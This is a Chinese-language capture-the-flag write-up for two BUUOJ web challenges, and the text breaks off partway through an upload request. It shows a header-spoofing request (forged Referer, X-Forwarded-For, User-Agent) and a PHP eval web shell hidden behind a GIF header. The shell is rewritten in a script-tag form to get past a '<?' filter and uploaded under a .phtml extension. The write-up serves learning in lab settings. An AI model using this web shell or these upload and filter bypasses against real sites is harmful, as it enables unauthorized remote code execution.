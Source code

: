 ### payload

```http
GET /Secret.php HTTP/1.1
Host: node3.buuoj.cn:28969
Referer:https://www.Sycsecret.com
X-Forwarded-For:127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent:Syclover
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a52dafb251c-0133abcdf6c6a9-6373264-384000-17a52dafb261436
Connection: close
```

## Upload

> *2021/07/05*

### 题目

题目是一道上传类型的题目，打开页面就能看到一个上传页面，先随便弄个图片马上去

```php
GIF89a
<?php
	eval($_POST['bme']);
?>
```

直接被拦截，提示我们上传的代码中含有`<?`，看来是有waf的存在，换一种写法

```php
GIF89a
<script language="php">
	eval($_POST['bme']);
</script>
```

但是我们的尾缀名还是`.gif`，要解析还需要`php`格式，所以还要对后缀进行绕过，如`php php3 php4 php5 phtml`，这里采用`phtml`进行绕过，上传好图片马之后，只需要用**蚁剑**去连接就行，路径在`/upload`下

### payload

```http
POST /upload_file.php HTTP/1.1
Host: f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn
Content-Length: 344
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3x6kQ4KShfkzO4oS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://f1f6fecf-466a-46c0-b308-aec9bb73266c.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

------WebKitFormBoundary3x6kQ4KShfkzO4oS
Content-Disposition: form-data; name="file"; filename="bme.phtml"
```